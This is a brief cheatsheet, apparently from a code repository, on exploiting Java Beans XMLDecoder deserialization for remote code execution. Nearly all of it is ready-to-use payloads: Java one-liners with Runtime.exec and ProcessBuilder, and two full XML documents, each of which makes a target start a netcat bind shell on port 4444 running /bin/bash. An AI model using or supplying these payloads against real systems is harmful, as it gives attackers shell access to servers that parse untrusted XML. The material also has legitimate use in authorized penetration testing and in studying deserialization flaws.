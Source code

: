 ## Java Beans XMLDecoder Remote Code Execution cheatsheet

Having a functionality of file upload or other function that is parsing input xml-type data that will later flow through the **XMLDecoder** component of _Java Beans_, one could try to play around it's known deserialization issue. In order to test that issue there should be specially crafted XML-payload used that would invoke arbitrary Java interfaces and methods with supplied parameters.

### Payloads

When one would like to start a bind shell on the target machine, he could use the payload like the following one:
```
Runtime.getRuntime().exec(new java.lang.String[]{"/usr/bin/nc", "-l", "-p", "4444", "-e", "/bin/bash"});
```

In such case desired XML would look like the following one:

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_102" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>4444</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/bash</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

or by using `ProcessBuilder`:

```
new java.lang.ProcessBuilder(new java.lang.String[]{"/usr/bin/nc", "-l", "-p", "4444", "-e", "/bin/bash"}).start()
```

Then the payload would look like:

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_102" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>4444</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/bash</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```
